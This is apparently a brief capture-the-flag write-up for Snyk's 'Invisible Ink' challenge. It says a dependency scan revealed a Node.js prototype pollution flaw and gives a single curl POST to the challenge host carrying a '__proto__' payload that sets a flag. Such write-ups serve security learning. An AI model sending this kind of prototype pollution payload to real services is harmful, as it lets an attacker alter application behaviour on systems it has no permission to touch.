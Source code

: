 # Challenge Invisble-Ink from Snyk


## Solution

snyk test


this reveals, that there is a prototype pollution attack in node.js 

```
$ curl --request POST --header "Content-Type: application/json"  http://invisible-ink.c.ctf-snyk.io/echo -d '{"message":"ping", "__proto__":{"flag":true}}' | jq .
```
